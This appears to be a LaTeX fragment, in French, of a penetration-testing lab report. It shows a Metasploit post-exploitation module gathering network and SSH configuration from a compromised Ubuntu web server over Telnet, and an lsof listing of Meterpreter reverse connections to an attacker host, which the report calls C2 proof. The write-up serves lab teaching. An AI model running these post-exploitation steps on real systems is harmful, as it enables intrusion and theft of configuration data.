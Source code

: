 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	
	\textbf{Observation Critique :} Le service \texttt{inetutils-inetd} (Telnet) est actif malgré la présence de \texttt{fail2ban}. Cela suggère que Fail2Ban n'est pas configuré pour surveiller Telnet.
	
	\subsubsection{Énumération Réseau}
	
	\begin{lstlisting}[caption=Module post/linux/gather/enum\_network]
		[msf](Jobs:0 Agents:2) >> use post/linux/gather/enum_network
		[msf](Jobs:0 Agents:2) post(linux/gather/enum_network) >> set SESSION 2
		SESSION => 2
		
		[msf](Jobs:0 Agents:2) post(linux/gather/enum_network) >> run
		
		[*] Running module against DMZ-WebServer (::1)
		[*] Module running as telnetuser
		[+] Info:
		[+]     Ubuntu 25.04
		[*] Collecting data...
		[+] DNS config stored in ~/.msf4/loot/2_linux.enum.netwo_867480.txt
		[+] SSHD config stored in ~/.msf4/loot/2_linux.enum.netwo_801493.txt
		[+] Host file stored in ~/.msf4/loot/2_linux.enum.netwo_984732.txt
		[+] Active connections stored in ~/.msf4/loot/2_linux.enum.netwo_196858.txt
		[*] Post module execution completed
	\end{lstlisting}
	
	\textbf{Résultat :} Cette sortie confirme l'exécution correcte de l'action pratique dans l'environnement de laboratoire. Elle apporte des éléments vérifiables pour contrôler l'état du service, du flux ou de la configuration avant l'étape suivante. Sur le plan pédagogique, elle relie l'opération réalisée aux objectifs d'apprentissage offensive/défensive.
	
	
	\subsubsection{Connexions Actives (Preuve de C2)}
	
	\begin{lstlisting}[style=logstyle,caption=Fichier : Active Network Connections]
		COMMAND    PID       USER      FD   TYPE DEVICE SIZE/OFF NODE NAME
		meterpret  4907  telnetuser  3u  IPv4  51029      0t0  TCP 192.168.10.100:56526->192.168.100.150:4445 (ESTABLISHED)
		meterpret  4908  telnetuser  3u  IPv4  51110      0t0  TCP 192.168.10.100:46182->192.168.100.150:4445 (ESTABLISHED)
		sh         5211  telnetuser  3u  IPv4  51029      0t0  TCP 192.168.10.100:56526->192.168.100.150:4445 (ESTABLISHED)
	\end{lstlisting}
	
\end{document}
